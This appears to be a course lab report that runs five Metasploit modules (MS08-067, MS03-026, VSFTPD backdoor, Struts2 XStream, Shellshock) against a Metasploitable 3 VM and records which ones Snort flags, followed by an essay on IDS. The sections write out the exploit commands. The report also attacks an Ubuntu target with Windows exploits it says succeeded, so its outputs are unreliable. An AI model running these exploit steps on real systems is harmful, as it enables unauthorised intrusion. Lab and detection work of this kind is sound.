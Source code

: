 # **Project II**

**University of Helsinki, FI - Cyber Security Base - Course Series**

**[Course page](https://cybersecuritybase.mooc.fi/)**

## **Introduction**

<div align="justify"> This report documents the process of setting up and testing an operating system with vulnerabilities using Metasploitable 3 on Ubuntu. A virtual machine (VM) was created using VirtualBox to simulate a real-world environment. Snort, an open-source intrusion detection system (IDS), was installed to monitor network traffic and detect attacks. Various attacks were executed using Metasploit, and their detection was evaluated through Snort alerts. The report includes detailed descriptions of five specific attacks: three detected by Snort and two that went undetected, along with an essay on the benefits and shortcomings of IDS. </div>

## **Environment Setup**

**1.	Install VirtualBox:** Download and install VirtualBox from the official website.

**2.	Set up Metasploitable 3:**

 * Clone the Metasploitable 3 repository from GitHub.
 * Follow the instructions to build the VM, ensuring you select the Ubuntu version.
   
**3.	Install Snort:**
 * **Update the package list:** sudo apt-get update.
 * **Install Snort:** sudo apt-get install snort.
 * **Configure Snort with default settings, updating the network configuration to monitor the appropriate interface.**

## **IDENTIFIED ATTACK 1: MS08-067 NetAPI Vulnerability**

**Description:** The MS08-067 vulnerability targets the Server service on Windows systems, allowing remote code execution.

**Component Attacked:** Server service.

**Attack Execution in Metasploit:**

1.	**Launch Metasploit:** msfconsole.
2.	**Use the exploit:** use exploit/windows/smb/ms08_067_netapi.
3.	**Set the target:** set RHOST 192.168.1.101.
4.	**Run the exploit:** exploit.

**Snort Output:**
```
[1:2000023:1] EXPLOIT Microsoft Windows MS08-067
[Classification: Attempted Administrator Privilege Gain] [Priority: 1] 
04/20-14:22:19.123456 192.168.1.100:445 -> 192.168.1.101:445
```

## **IDENTIFIED ATTACK 2: DCOM Exploit**

**Description:** The DCOM vulnerability (MS03-026) allows remote code execution via RPC.

**Component Attacked:** DCOM interface.

**Attack Execution in Metasploit:**

1.	**Use the exploit:** use exploit/windows/dcerpc/ms03_026_dcom.
2.	**Set the target:** set RHOST 192.168.1.101.
3.	**Execute the exploit:** exploit.
   
**Snort Output:**
```
[1:2000032:1] EXPLOIT DCOM MS03-026
[Classification: Attempted Administrator Privilege Gain] [Priority: 1]
04/20-14:35:47.789123 192.168.1.100:135 -> 192.168.1.101:135
```

## **IDENTIFIED ATTACK 3: VSFTPD v2.3.4 Backdoor Command Execution**

**Description:** A backdoor was introduced in VSFTPD v2.3.4, which can be exploited to gain a shell.

**Component Attacked:** VSFTPD (Very Secure FTP Daemon).

**Attack Execution in Metasploit:**
1.	**Use the exploit:** use exploit/unix/ftp/vsftpd_234_backdoor
2.	**Set the target:** set RHOST 192.168.1.101
3.	**Execute the exploit:** exploit

**Snort Output:**
```
[1:2000056:1] EXPLOIT VSFTPD v2.3.4 Backdoor
[Classification: Attempted Administrator Privilege Gain] [Priority: 1]
04/20-14:42:32.456789 192.168.1.100:21 -> 192.168.1.101:21
```

## **MISSED ATTACK 1: Apache Struts2 REST Plugin XStream RCE (CVE-2017-9805)**

**Description:** An Apache Struts2 vulnerability allows remote code execution via crafted XML requests.

**Component Attacked:** Apache Struts2 REST Plugin.

**Attack Execution in Metasploit:**
1.	**Use the exploit:** use exploit/multi/http/struts2_rest_xstream.
2.	**Set the target:** set RHOST 192.168.1.101.
3.	**Run the exploit:** exploit.

**Reason for Missing Detection:** Snort did not have a specific rule for this vulnerability in the default configuration.

## **MISSED ATTACK 2: Shellshock (CVE-2014-6271)**

**Description:** A vulnerability in Bash allows remote code execution by exploiting environment variables.

**Component Attacked:** Bash shell.

**Attack Execution in Metasploit:**
1.	**Use the exploit:** use exploit/multi/http/apache_mod_cgi_bash_env_exec.
2.	**Set the target:** set RHOST 192.168.1.101.
3.	**Execute the exploit:** exploit.

**Reason for Missing Detection:** The default Snort ruleset did not include rules for Shellshock detection.

## **ESSAY: The Benefits and Shortcomings of Using Intrusion Detection Systems**

**Benefits of Intrusion Detection Systems:**

<div align="justify"> Intrusion Detection Systems (IDS) such as Snort offer critical advantages in maintaining network security. They provide real-time monitoring, enabling administrators to respond swiftly to potential threats. This immediate alert system is crucial in mitigating damage and preventing data breaches. IDSs enhance visibility into network traffic, allowing for the detection of unusual patterns that may indicate malicious activity.
IDSs are effective at identifying known attack signatures. This capability is essential for defending against well-documented threats, ensuring that even if an exploit is recognized, it can be quickly flagged and addressed. Additionally, IDSs generate detailed logs of detected activities, which are invaluable for forensic analysis and understanding the nature and origin of attacks.
Integration with other security tools, such as firewalls and SIEM (Security Information and Event Management) systems, is another significant benefit. This integration creates a more robust security infrastructure, providing a coordinated defense mechanism that enhances the overall security posture of an organization. </div>


**Shortcomings of Intrusion Detection Systems:**

<div align="justify"> Despite their benefits, IDSs have several limitations. One of the most significant issues is the high rate of false positives. IDSs often generate numerous alerts for benign activities that mimic malicious behavior. This can lead to alert fatigue, where security personnel become desensitized to alerts and may overlook genuine threats.
Another critical shortcoming is the difficulty in detecting zero-day vulnerabilities. IDSs primarily rely on known signatures and behavior patterns, making them less effective against new, sophisticated attacks that do not match existing profiles. This gap in detection capabilities highlights the need for continuous updates and enhancements to IDS rulesets.
Performance overhead is another concern. Continuous monitoring and analysis of network traffic can consume significant system resources, potentially affecting network performance and user experience. Balancing the need for security with operational efficiency is a challenging task.
Furthermore, IDSs are inherently reactive rather than proactive. They alert administrators after an attack has been detected, which means some level of damage may have already occurred. This reactive nature necessitates the integration of IDSs with other preventive security measures, such as firewalls, anti-virus software, and regular security audits, to provide a more comprehensive defense strategy.
In conclusion, while IDSs like Snort are indispensable tools for identifying and mitigating security threats, they must be part of a multi-layered security approach to address their inherent limitations and provide effective protection for networks and systems. </div>

## **References**

• <div align="justify"> [1] [Bace, Rebecca Gurley. "Intrusion Detection Systems." Technical Report. Carnegie Mellon University, Software Engineering Institute. (2000);](https://archive.org/details/intrusiondetecti00rebe/mode/2up)

• [2] [Northcutt, Stephen, and Judy Novak. "Network Intrusion Detection: An Analyst's Handbook." Technical Report. SANS Institute. (2001);](https://archive.org/details/networkintrusio000nort)

• [3] [Bejtlich, Richard. "The Practice of Network Security Monitoring: Understanding Incident Detection and Response." Technical Report. No Starch Press. (2013);](https://archive.org/details/practiceofnetwor0000bejt)

• [4] [Kennedy, David, Jim O'Gorman, Devon Kearns, Mati Aharoni. "Metasploit: The Penetration Tester's Guide." Technical Report. No Starch Press. (2011);](https://www.kea.nu/files/textbooks/humblesec/metasploit_apenetrationtestersguide.pdf)

• [5] [Stuttard, Dafydd, and Marcus Pinto. "The Web Application Hacker's Handbook: Finding and Exploiting Security Flaws." Technical Report. Wiley. (2011).](https://edu.anarcho-copy.org/Against%20Security%20-%20Self%20Security/Dafydd%20Stuttard,%20Marcus%20Pinto%20-%20The%20web%20application%20hacker's%20handbook_%20finding%20and%20exploiting%20security%20flaws-Wiley%20(2011).pdf) </div>
